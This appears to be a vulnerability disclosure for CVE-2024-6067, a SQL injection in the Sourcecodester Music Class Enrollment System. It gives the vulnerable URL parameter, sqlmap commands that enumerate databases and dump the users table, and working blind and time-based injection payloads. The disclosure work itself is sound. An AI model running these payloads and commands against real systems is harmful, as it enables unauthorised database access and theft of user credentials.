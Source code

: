 # Sourecodester Music Class Enrollment System SQL Injection vulnerability
## CVE-2024-6067

Affected Software: https://www.sourcecodester.com/php/15362/music-class-enrollment-site-phpoop-free-source-code.html

Vulnerable path: http://localhost/mces/?p=class/view_class&id=4

![image](https://github.com/jadu101/CVE/assets/76433661/09db7303-c570-4296-bced-f0cab23d95a1)



Tool Used: SQLmap

Commands to recreate:

`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/7833ceba-4326-4bb0-b454-67962e45c746)



```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=class/view_class&id=4' AND 2160=2160 AND 'CscS'='CscS

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=class/view_class&id=4' AND (SELECT 6865 FROM (SELECT(SLEEP(5)))TZfN) AND 'sHBo'='sHBo
---
```

`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch –dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/290f3bd2-3d3f-474e-b4a1-ae2458edacb7)



`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch -D mces_db -T users –dump`

![image](https://github.com/jadu101/CVE/assets/76433661/5802f597-a725-48b6-beb4-f86bdd959fb2)




